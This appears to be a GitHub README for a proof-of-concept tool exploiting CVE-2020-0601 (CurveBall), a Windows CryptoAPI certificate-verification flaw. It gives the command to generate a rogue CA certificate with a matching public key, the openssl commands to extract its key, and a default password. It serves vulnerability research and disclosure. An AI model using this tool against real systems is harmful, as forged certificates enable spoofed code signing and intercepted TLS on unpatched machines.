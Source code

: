 # CurveBall ([CVE-2020-0601](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2020-0601)) - PoC
CVE-2020-0601: Also known as CurveBall or ChainOffFools, is a vulnerability in the Microsoft CryptoApi (specificly in Crypt32.dll) where elliptic curve signatures (ECDSA) of certificates is not correctly verified. 

There is a very nice blog post [here](https://research.kudelskisecurity.com/2020/01/15/cve-2020-0601-the-chainoffools-attack-explained-with-poc/) which explains the issue very neatly.

*This should only be used for educational and researching purposes!*

## How to

Provide the console application with the path to an elliptic curve certificate.
```
CurveBall.exe 'PathToCA.cer'
```
The program will output a .p12 file contaning a certificate with the same public key and serial number as the original, including a key.

The key and cert can be extracted from the .p12 by using openssl with the following commands
```
openssl pkcs12 -in Rogue.p12 -nocerts -out CA.key
```
and 
```
openssl pkcs12 -in Rogue.p12 -clcerts -nokeys -out CA.cer
```
NOTE: Default password is 'Test1234'.
